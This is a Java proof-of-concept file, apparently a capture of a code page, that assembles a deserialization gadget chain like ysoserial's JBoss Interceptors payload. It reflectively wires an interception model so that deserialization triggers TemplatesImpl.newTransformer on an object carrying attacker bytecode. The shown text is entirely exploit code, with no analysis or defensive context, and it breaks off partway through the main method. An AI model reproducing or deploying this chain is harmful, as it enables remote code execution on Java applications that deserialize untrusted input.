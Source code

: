 ```java
import javax.xml.transform.TransformerConfigurationException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class poc {
    public static String string;
    public static void main(String[] args) throws NotFoundException, IOException, CannotCompileException, NoSuchFieldException, IllegalAccessException, TransformerConfigurationException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException {

//public InterceptorMethodHandler(Object targetInstance,
// ClassMetadata<?> targetClassMetadata,
// InterceptionModel<ClassMetadata<?>, ?> interceptionModel,
// InterceptorInstantiator<?, ?> interceptorInstantiator,
// InvocationContextFactory invocationContextFactory)


        InterceptionModelBuilder builder = InterceptionModelBuilder.newBuilderFor(HashMap.class);
        ReflectiveClassMetadata metadata = (ReflectiveClassMetadata) ReflectiveClassMetadata.of(HashMap.class);
        InterceptorReference interceptorReference = ClassMetadataInterceptorReference.of(metadata);

        Set<InterceptionType> s = new HashSet<InterceptionType>();
        s.add(org.jboss.interceptor.spi.model.InterceptionType.POST_ACTIVATE);

        Constructor defaultMethodMetadataConstructor = DefaultMethodMetadata.class.getDeclaredConstructor(Set.class, MethodReference.class);
        defaultMethodMetadataConstructor.setAccessible(true);
        MethodMetadata methodMetadata = (MethodMetadata) defaultMethodMetadataConstructor.newInstance(s, MethodReference.of(TemplatesImpl.class.getMethod("newTransformer"), true));

        List list = new ArrayList();
        list.add(methodMetadata);
        Map<org.jboss.interceptor.spi.model.InterceptionType, List<MethodMetadata>> hashMap = new HashMap<org.jboss.interceptor.spi.model.InterceptionType, List<MethodMetadata>>();

        hashMap.put(org.jboss.interceptor.spi.model.InterceptionType.POST_ACTIVATE, list);
        SimpleInterceptorMetadata simpleInterceptorMetadata = new SimpleInterceptorMetadata(interceptorReference, true, hashMap);

        builder.interceptAll().with(simpleInterceptorMetadata);

        InterceptionModel model = builder.build();

        HashMap map = new HashMap();
        map.put("ysoserial", "ysoserial");

//        TemplatesImpl obj = new TemplatesImpl();
//        setFieldValue(obj, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Evil.class.getName()).toBytecode()});
//        setFieldValue(obj, "_name", "1");
//        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        TemplatesImpl obj=(TemplatesImpl)getTemplatesImpl();

        DefaultInvocationContextFactory factory = new DefaultInvocationContextFactory();

        InterceptorInstantiator interceptorInstantiator = new InterceptorInstantiator() {
            public Object createFor(InterceptorReference paramInterceptorReference) {
                return obj;
            }
        };
```
